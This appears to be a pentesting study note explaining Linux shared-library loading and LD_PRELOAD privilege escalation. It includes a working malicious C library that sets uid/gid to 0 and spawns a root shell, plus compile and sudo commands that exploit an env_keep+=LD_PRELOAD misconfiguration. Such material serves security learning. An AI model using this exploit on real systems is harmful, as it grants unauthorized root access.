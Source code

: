 
### **Overview**

- Linux uses **dynamically linked shared object libraries** (`.so`) to avoid code duplication across programs.
- Two types:
    - _Static libraries_: `.a` — compiled into the program and immutable.
    - _Dynamic libraries_: `.so` — loaded at runtime and can be **abused** for privilege escalation.

---

### **Library Path Resolution Methods**

- **During compilation**:
    - `-rpath`, `-rpath-link`

- **Environment variables**:
    - `LD_RUN_PATH`, `LD_LIBRARY_PATH`

- **Default locations**:
    - `/lib`, `/usr/lib`

- **Config file**:
    - `/etc/ld.so.conf`

- **Manual injection**:
    - `LD_PRELOAD` — forces specific libraries to load first.


---
### **Library Dependency Check**
```bash
ldd /bin/ls
# Lists all required shared libraries and their paths
```

## LD_PRELOAD Privilege Escalation

---

### **Scenario**

- User has `sudo` access to **restart apache2** with preserved `LD_PRELOAD`:
```bash
sudo -l
# (root) NOPASSWD: /usr/sbin/apache2 restart
# env_keep+=LD_PRELOAD
```
- Although the binary path is **absolute and not a GTFOBin**, LD_PRELOAD remains exploitable.

### **Malicious Shared Library Example**

#### Code (`root.c`):
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Compile
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

### **Exploit**
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
